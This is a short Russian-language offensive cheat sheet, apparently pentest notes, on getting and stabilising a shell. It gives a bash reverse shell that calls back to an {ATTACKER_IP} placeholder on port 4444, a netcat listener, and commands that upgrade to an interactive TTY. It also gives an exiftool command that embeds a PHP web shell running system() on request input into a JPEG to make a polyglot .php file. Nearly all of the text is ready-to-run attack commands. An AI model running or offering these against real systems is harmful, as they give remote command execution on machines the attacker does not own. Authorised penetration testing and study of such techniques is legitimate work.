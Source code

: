 ### Reverse Shell Generator
[revshells.com](https://www.revshells.com)

Проброс шелла:

```
bash -c "bash -i >& /dev/tcp/{ATTACKER_IP}/4444 0>&1"
```

Слушать:

```
sudo nc -lvnp 4444
```

Переход на удобный шелл:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

```
/usr/bin/script -qc /bin/bash /dev/null
```

Полиглотный шелл:

```
exiftool -DocumentName="<h1>chiara<br><?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';} __halt_compiler();?></h1>" <jpeg-file-name>.jpeg -o polyglot.php
```